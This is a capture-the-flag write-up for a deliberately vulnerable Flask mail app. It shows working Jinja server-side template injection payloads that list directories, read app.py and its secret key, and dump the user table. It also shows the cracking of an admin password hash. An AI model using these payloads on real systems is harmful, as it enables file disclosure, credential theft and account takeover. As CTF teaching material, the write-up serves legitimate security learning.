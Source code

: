 # Outline - Task 2

---

## Challenge Description 
Oh look its a vulnerable flask app! There are 2 flags hidden here. Good luck!

Task 2: /flag seems to have an error... Try accessing as one of the other users!

`nc c2.lagncrash.com 8002`

---

## Challenge Solution
Firstly, I used the command given to netcat into the server and then accessed the link.
```
[spawner] Spinning up new instance of:
[spawner]     Outline
[spawner]
[spawner] Access your challenge at:
[spawner]     http://c2.lagncrash.com:12768/
[spawner]
[spawner] ------------------------- NOTE --------------------------
[spawner] Hit [Enter] to destroy your challenge instance once done!
```

After accessing the link, I registered for an account and logged in to see this webpage.

![Screenshot 2022-03-27 170954](https://user-images.githubusercontent.com/101789488/160274756-431c5ee3-b326-4da8-b1be-206e6b3a8696.png)

If we try to access `/flag`, we will be redirected to a page with the following:
```
You are not allowed to view this page
```


From the challenge `Outline - Task 1`, we know that the page is vulnerable to [Server Side Template Injection (SSTI)](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection). To confirm it, I used the following payload:
```
{{7*7}}
```
![Screenshot 2022-03-27 180732](https://user-images.githubusercontent.com/101789488/160276571-ab85f3c0-f66e-4a1a-95e7-e6b8175d85eb.png)

The following result proved that the page was vulnerable to SSTI.
```
From: To: Subject: 49
```

From there, I tried listing the directories available using the following payload:
```
{{url_for.__globals__.os.__dict__.listdir('./')}}
```

This was the result that I got:
```
From: To: Subject: ['User.py', 'requirements.txt', 'Mail.py', 'templates', 'storage.db.bak', 'storage.db.dir', 'static', 'storage.db.dat', 'app.py', '__pycache__']
```

At this point, I just went through each of the files to see if I can find the flag. To display the contents of each file, I used the following payload:
```
{{url_for.__globals__.__builtins__.open('app.py').read()}} 
```

After going through the different files, `app.py` displayed some information including the flag, a username 'bigboiadmin', and a password '2548dac1cb1bc28328c7f92cab9cf68ebf3d15a4514268a95f9b34619b456350' that looks hashed.
```
From: To: Subject: from flask import Flask, Response, render_template, request, redirect, url_for, session, send_from_directory, render_template_string import shelve import hashlib from User import User from Mail import Mail app = Flask(__name__, static_url_path='',static_folder='static') app.secret_key = "LNC2022{s1mpl3_fl4sk_s3rv3r_s1d3_t3mpl4t3_1nj3c10n}" @app.route('/', methods=['GET']) def home(): return render_template("home.html") @app.route('/register', methods=['GET','POST']) def register(): if request.method == 'GET': return render_template("register.html") elif request.method == 'POST': username = request.form['username'] password = sha256(request.form['password']) db = shelve.open('storage.db', 'w') users = db['users'] user = User(username, password) users[username] = user.asdict() db['users'] = users return redirect(url_for("home")) @app.route('/login', methods=['POST']) def login(): loggedin = False username = request.form['username'] password = sha256(request.form['password']) db = shelve.open('storage.db', 'r') users = db['users'] try: user = users[username] print(user['password'], password) if user['password'] == password: loggedin = True print('2') else: print('3') pass except: print('4') pass if loggedin == True: session["username"] = user['username'] session["login"] = user['id'] return redirect(url_for('mail')) else: response = Response(400) response.data = "Authentication failed" return response @app.route('/mail', methods=['GET', 'POST']) def mail(): if request.method == 'GET': return render_template("mail.html") elif request.method == 'POST': sender = request.form['sender'] receiver = request.form['receiver'] subject = request.form['subject'] body = request.form['body'] mail = Mail(sender,receiver,subject,body) id = mail.get_id() db = shelve.open('storage.db', 'w') mail_dict = db['mail'] mail_dict[id] = mail db['mail'] = mail_dict return render_template("sent.html", id=id) @app.route('/emails/<mailid>', methods=['GET']) def emails(mailid): db = shelve.open('storage.db', 'r') users = db['users'] mail_dict = db['mail'] mail = mail_dict[mailid] db.close() html = f'From: {mail.get_sender()} \ To: {mail.get_receiver()} \ Subject: {mail.get_subject()} \ {mail.get_body()}' return render_template_string(html,users=users) @app.route('/flag', methods=['GET']) def flag(): db = shelve.open('storage.db', 'r') users = db['users'] if session["username"] == "bigboiadmin" and session['login'] == users['bigboiadmin']['id']: response = Response(200) response.data = "LNC2022{n0t_4s_s1mpl3_fl4sk_s3rv3r_s1d3_t3mpl4t3_1nj3c10n}" else: response = Response(400) response.data = "You are not allowed to view this page" return response def sha256(hash_string): sha_signature = \ hashlib.sha256((hash_string).encode()).hexdigest() return sha_signature if __name__ == "__main__": db = shelve.open('storage.db', 'c') db['users'] = {"bigboiadmin":{'id':'4SAW8NH0I37CIE13MVC1Q1CL42N6PTFGECIQKS3Y0U8N8CEP', 'username': 'bigboiadmin', 'password': '2548dac1cb1bc28328c7f92cab9cf68ebf3d15a4514268a95f9b34619b456350'}} db['mail'] = {} db.close() app.run()
```

![Screenshot 2022-03-27 174914](https://user-images.githubusercontent.com/101789488/160276682-0579b8b0-37c1-4428-a694-265191590786.png)

From here, I already got the flag, but I would assume that the intended way of solving this challenge would be to login as the admin and access `/flag`. To obtain the user information, use this payload:
```
{{users.items()}}
```

This will be the result obtained:
```
From: To: Subject: dict_items([('bigboiadmin', {'id': '4SAW8NH0I37CIE13MVC1Q1CL42N6PTFGECIQKS3Y0U8N8CEP', 'username': 'bigboiadmin', 'password': '2548dac1cb1bc28328c7f92cab9cf68ebf3d15a4514268a95f9b34619b456350'}), ('gabeseet@gmail.com', {'id': 'J9I3J0BVPWQZGFB7P81D9UYBD7USA37KFTBVOTXHVFAF7RTP', 'username': 'gabeseet@gmail.com', 'password': 'b03ddf3ca2e714a6548e7495e2a03f5e824eaac9837cd7f159c67b90fb4b7342'}), ('', {'id': 'EEK6ZF7EPQSG5257EGWF3YJI2GQ8UO9GXHVWL52F1L7A0443', 'username': '', 'password': 'e3b0c44298fc1c149afbf4c8996fb92427ae41e4649b934ca495991b7852b855'}), ('test', {'id': 'OZILH75F4KU9HW9EFH26IDCNYMBI4DT1O8X6W3OW3EGMEYZC', 'username': 'test', 'password': '9f86d081884c7d659a2feaa0c55ad015a3bf4f1b2b0b822cd15d6c15b0f00a08'})])
```

![Screenshot 2022-03-27 182532](https://user-images.githubusercontent.com/101789488/160277173-a6b6effc-3341-4677-994e-c593870255ba.png)

Using an [online hash cracker](https://crackstation.net/), we can get the password of the account 'bigboiadmin'. The following are the account credentials:
```
Username: bigboiadmin
Password: b1g5h0t$
```

If you login with the obtained credentials and navigate to `/flag`, you will be given the flag.
```
LNC2022{n0t_4s_s1mpl3_fl4sk_s3rv3r_s1d3_t3mpl4t3_1nj3c10n}
```